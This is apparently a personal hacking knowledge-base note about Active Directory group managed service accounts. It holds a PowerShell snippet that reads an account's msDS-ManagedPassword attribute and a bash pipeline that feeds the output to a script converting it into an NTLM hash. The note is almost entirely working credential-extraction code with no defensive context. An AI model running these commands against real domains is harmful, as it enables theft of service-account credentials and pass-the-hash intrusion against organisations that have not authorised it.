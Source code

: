# active directory  GMSA group managed service account read NTLM hash with powershell + python
```powershell
$gmsa = Get-ADServiceAccount -Identity GMSAccount -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
echo $mp
```
```bash
# managed_password is the output of `echo $mp`
cat managed_password | awk '{ printf("%.2x", $1) }' > managed_password.hex
~/kb/hacking/windows/convert-msds-managed-password-to-ntlm-hash.py
```

` zet/20221003151133/README.md `

# Related

- [20221003151134](/zet/20221003151134/README.md) active directory  GMSA group managed service account
- ~/kb/hacking/windows/windows-active-directory-and-privilege-information.md

Tags:

    #hacking #windows #windows 
